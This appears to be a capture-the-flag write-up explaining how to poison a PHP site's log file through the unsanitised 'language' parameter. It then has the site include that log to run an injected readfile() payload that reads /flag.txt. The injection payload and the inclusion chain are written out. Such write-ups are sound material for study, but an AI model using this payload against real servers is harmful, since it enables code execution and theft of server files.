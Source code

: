 The website takes the `language` GET parameter and log the value using `logEvent()` function.

`log.php`
```php
<?php
$logFile = 'logs/site_log.txt';

/**
 * Logs a message to the centralized log file.
 *
 * @param string $message The message to log.
 */
function logEvent($message) {
    global $logFile;

    if (!is_dir(dirname($logFile))) {
        mkdir(dirname($logFile), 0755, true);
    }

    $timestamp = date('[Y-m-d H:i:s]');
    $formattedMessage = "$timestamp $message\n";

    file_put_contents($logFile, $formattedMessage, FILE_APPEND);
}
```

The `logEvent()` function saves the value in logs/site_log.txt. Since the `language` parameter lacks validation or sanitization, we can inject malicious PHP code to poison the log.

Below the payload to read the flag using `readfile()` function to bypass the disabled functions:

```php
<?php echo readfile('/flag.txt');?>
```

<img width="1026" alt="image" src="https://github.com/user-attachments/assets/69a11f81-f747-47de-b4b6-401c5bae4189" />

After poison the log with PHP payload, we can load the payload using `include()` function in

```php
if ($filePath && strpos($filePath, $baseDir) === 0 && file_exists($filePath)) {
    include($filePath);
}
```

<img width="1680" alt="image" src="https://github.com/user-attachments/assets/d3189d89-863f-4e99-9f4a-98653025b6bd" />
